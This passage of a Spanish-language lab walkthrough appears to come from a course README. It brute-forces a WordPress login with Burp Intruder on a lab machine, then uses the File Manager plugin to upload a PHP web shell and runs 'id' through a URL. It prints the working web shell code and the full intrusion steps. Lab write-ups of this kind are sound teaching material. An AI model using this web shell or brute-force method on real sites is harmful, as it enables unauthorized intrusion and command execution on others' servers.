 ![image](https://user-images.githubusercontent.com/50930193/167014787-ef4404b7-fb37-4237-b567-81dc59534e18.png)

Ahora, empleemos intruder para realizar una fuerza bruta de contraseñas. Para ello, sigamos los pasos siguientes:

En **Positions**, elijamos como tipo de ataque, **sniper** y cambios y añadamos como campo **pwd** a evaluar

![image](https://user-images.githubusercontent.com/50930193/167015103-c2ed664c-9ab3-4182-9694-0a11108df295.png)

En **Payloads** elijamos una lista simple y en la opción Load incluiremos la referencia a este archivo
```
/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
```
![image](https://user-images.githubusercontent.com/50930193/167016928-93c01c9a-5155-4089-9144-63f057dcac3d.png)

También en **Payloads** elegimos **attack**, la forma de como ubicar el password es ver la longitud (campo **Length**) del arcchivo de respuesta, en este caso vemos que el payload que estamos buscando es **password**

![image](https://user-images.githubusercontent.com/50930193/167017756-fcbdbdfe-4285-423f-949d-fcf799ae9353.png)

Ahora tratemos de ingresar con el usuario **wordpress** y la contraseña **password** y verán que el resultado de autenticación es 

![image](https://user-images.githubusercontent.com/50930193/167017902-295f2d53-390e-4d86-a97c-6c70abed6931.png)

![image](https://user-images.githubusercontent.com/50930193/167017969-df31421a-ebd6-4f98-be29-049ec6c29a9e.png)

Esta version de wordpress tiene un pluging llamado **Administrador de Archivos** o **WP FIle Manager**, si tenemos una opción para subir archivos ya tenemos una funcionalidad probable de hacking, para ellos subimos un exploit que nos permita ejecutar comandos en el servidor

FILE:ulima.php
```
<?php
if(isset($_GET['cmd']))
	{
		system($_GET['cmd']);
	}
?>
```
Seleccionar el archivo y guardarlo
![image](https://user-images.githubusercontent.com/50930193/167019901-11a0f0f5-06f7-4c2c-acb7-0a8e65379874.png)
![image](https://user-images.githubusercontent.com/50930193/167020010-60f88f7e-0eba-479a-926c-fb7117dde0bd.png)
![image](https://user-images.githubusercontent.com/50930193/167020134-e79c938c-95b8-4a4e-bf3a-c58830ac30d3.png)

En ese sentido veamos si el exploit funciona, ingresemos a firefox a este enlace
```
http://192.168.109.171/wordpress/wp-content/uploads/2022/05/ulima.php?cmd=id
```
![image](https://user-images.githubusercontent.com/50930193/167020476-4cf72caf-7d00-4fc4-b58b-47bfd5c2fc1b.png)
